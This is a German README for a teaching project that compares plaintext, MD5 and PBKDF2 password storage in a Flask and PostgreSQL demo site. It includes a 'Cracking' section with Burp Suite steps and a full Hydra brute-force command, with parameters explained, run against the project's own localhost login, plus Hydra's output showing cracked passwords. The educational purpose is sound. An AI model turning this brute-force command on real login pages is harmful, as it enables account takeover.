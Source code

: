 # Sichere Passwortspeicherung

[![Build Status](https://travis-ci.org/MarkusWET/secure_password_website.svg?branch=master)](https://travis-ci.org/MarkusWET/secure_password_website)

Um Passwörter sicher in Datenbanken zu speichern, haben sich über die Jahre verschiedenste Ansätze entwickelt, die mal mehr, mal weniger sicher sind. Im Rahmen dieses Projekts gehen wir auf drei verschiedene Möglichkeiten der Passwortspeicherung ein.
1. Plaintext
2. Gehasht (MD5)
3. PBKDF2

Zur Demonstration wird eine simple Website entwickelt, bei der User sich über einen Login authentifizieren müssen, um auf einen geschützten Bereich zugreifen zu können. Dies wird mit folgenden Technologien realisiert:
* Python
* Flask
* Jinja2
* SQLAlchemy
* PostgreSQL

___ACHTUNG! Dieses Projekt zeigt nur, wie Passwörter sicher gespeichert werden können. Es ist ist keine Referenzimplementierung und beinhaltet weder Session Management, noch sonstige Sicherheitsvorkehrungen, die bei modernen Websites Standard sein sollten.___

___Dies wird unter Umständen im Test-Branch___ ```flask-security``` ___implementiert.___

## Voraussetzungen
Es sollten folgende Pakete installiert sein:
* ```python3```
* ```pip```
* ```python-flask```
* ```python-django```
* ```pbkdf2```
* (optional) ```pyopenssl``` für HTTPS

___ACHTUNG! Alle Shell-Scripts sind auf Arch ausgelegt. Sie funktionieren großteils auch unter anderen Distros, bitte ggf. je nach Distro bitte anpassen.___

## PostgreSQL
Um unsere Passwört sicher (oder unsicher) zu speichern, wird eine PostgreSQL-Datenbank eingerichtet und die Tabelle "Users" erzeugt.

### Installation

1. postgresql-Paket und PostgreSQL-Erweiterung für Python installieren

```
$ sudo pacman -S postgresql
$ sudo pip install psycopg2
```

2. zu postgres user wechseln und Datenbank initialisieren

```
$ sudo -u postgres -i
$ initdb --locale $LANG -E UTF-8 -D '/var/lib/postgres/data'
```

4. aus postgres user aussteigen

```$ exit```

5. postgres service einschalten und starten

```
$ sudo systemctl enable postgresql.service
$ sudo systemctl start postgresql.service
```

mit Postgres User die DB erstellen

```
$ sudo -u postgres -i
$ createdb secure_password_storage
```

Rolle anlegen & übernehmen

```
$ create role dbadmin with superuser login createdb
$ set role
```

pgcrypto extension für UUID Erstellung

```$ create extension pgcrypto;```


### Tabellen
Für dieses Beispiel benötigen wir eigentlich nur eine Usertabelle, in der neben dem Usernamen zumindest das Passwort (in welcher Form auch immer) hinterlegt wird.

```sql
CREATE TABLE users (
  user_id         UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  username        TEXT UNIQUE,
  usernumber      SERIAL UNIQUE,
  password        TEXT,
  password_md5    TEXT,
  password_pbkdf2 TEXT,
  salt            TEXT,
  iterations      INTEGER
);
```
## Cracking
Ziel hierbei ist es, zu zeigen, dass "normale" Hashalgorithmen sehr schnell sind, und darum eine Attacke darauf rentabel sein kann. Bei PBKDF2 ist das Ziel, einen langsamen Algorithmus zu haben, bei dem sich Brute Force Attacken nicht mehr auszahlen und auch Rainbow Tables ihre Wirkung verlieren.
* Brute Force mit Passwortlisten
    * Plain
    * MD5
    * PBKDF2
* Rainbow Table
    * MD5

### Voraussetzungen
* ```hydra```
* ```john``` (John the Ripper)
* ```hashcat```
* ```burpsuite``` (in [AUR](https://aur.archlinux.org/))
* [Passwort Listen](https://github.com/danielmiessler/SecLists/tree/master/Passwords) (zB Ashley_Madison.txt)

### Burpsuite

#### Aufklärung mit Burpsuite
1. Unter dem Tab "Proxy" sicherstellen, dass
    1. unter "Options" der Proxy Listener läuft (running ☑️)
    1. unter "Intercept" der Toggle "Intercept is on" gesetzt ist.
1. In den Proxy-Settings (Global oder je Browser) den erstellten Proxy-Listener samt Port (zB 127.0.0.1:8080) eintragen. ___Dabei unbedingt darauf achten, DASS LOCALHOST NICHT ALS AUSNAHME GESETZT IST!___
1. Auf der Loginseite eine beliebige Username:Passwort Kombination eingeben.
1. Burpsuite fängt den Request ab und gibt ihn unter "Proxy">"Intercept" aus

#### Angriff mit Hydra
Der Aufruf von Hydra ist sehr umfangreich und daher fehleranfällig für falsche Parameter (___Case sensitivity beachten!___), mehr dazu in ```hydra -h```. Generell erfolgt ein Angriff auf ein Live-System mit folgendem Befehl:

```
$ hydra 127.0.0.1 -s 5000 -t 32 -I -L attack/pres_users.txt -P attack/10_million_password_list_top_1000000.txt -o attack/output.txt http-form-post "/login:username=^USER^&password=^PASS^:User and password do not match."
```

```127.0.0.1 -s 5000``` - Ziel ist localhost auf Port 5000 angegriffen wird.

```-t 32``` - es werden maximal 32 tasks pro Server pro Sekunde versucht. 

```-I``` - sollte eine abgebrochene Session bestehen, wird diese ohne Warnung überschrieben.

```
-L attack/pres_users.txt 
-P attack/10_million_password_list_top_1000000.txt 
-o attack/output.txt
```
* -L ist die Liste der Usernamen (alternativ kann -l für einen einzelnen User genommen werden)
* -P ist die Passwortliste
* -o ist die Output-Datei, in der die gefundenen Passwörter gespeichert werden.

Output

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-10-08 20:27:04
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 32 tasks per 1 server, overall 32 tasks, 3000003 login tries (l:3/p:1000001), ~93751 tries per task
[DATA] attacking http-post-form://127.0.0.1:5000//login:username=^USER^&password=^PASS^:User and password do not match.
[STATUS] 2657.00 tries/min, 2657 tries in 00:01h, 2997346 to do in 18:49h, 32 active
[5000][http-post-form] host: 127.0.0.1   login: pres_plain   password: testtest1
[STATUS] 334335.33 tries/min, 1003006 tries in 00:03h, 1996997 to do in 00:06h, 32 active
[5000][http-post-form] host: 127.0.0.1   login: pres_md5   password: testtest1
[STATUS] 286063.57 tries/min, 2002445 tries in 00:07h, 997558 to do in 00:04h, 32 active
[5000][http-post-form] host: 127.0.0.1   login: pres_pbkdf2   password: testtest1
1 of 1 target successfully completed, 3 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-10-08 20:37:47

```

##### Geschwindigkeiten beim Angriff
Im folgenden Screenshot wird der Unterschied zwischen den verschiedenen Hash- bzw. Plaintext-Varianten ersichtlich.
 
Während eine Dictionary-Attacke auf ein Plaintextpasswort ungefähr gleich schnell ist, wie ein Angriff auf ein MD5-gehashtes Passwort, so zeigt sich klar, dass PBKDF2 zu einem erheblich höheren Zeitaufwand führt. Die Plaintext und MD5-Passwörter konnten binnen 3 Minuten geknackt werden. Für die PBKDF2-gehashte Variante werden bereits 10 Minuten benötigt.

_Anmerkung: bei den 33333.33 tries/min nach dem Fund des MD5-Passwortes dürfte es sich um einen statistischen Fehler/Darstellungsfehler handeln._

![alt text](attack/3_attacks.png "Attacke auf Plaintext, MD5 und PBKDF2")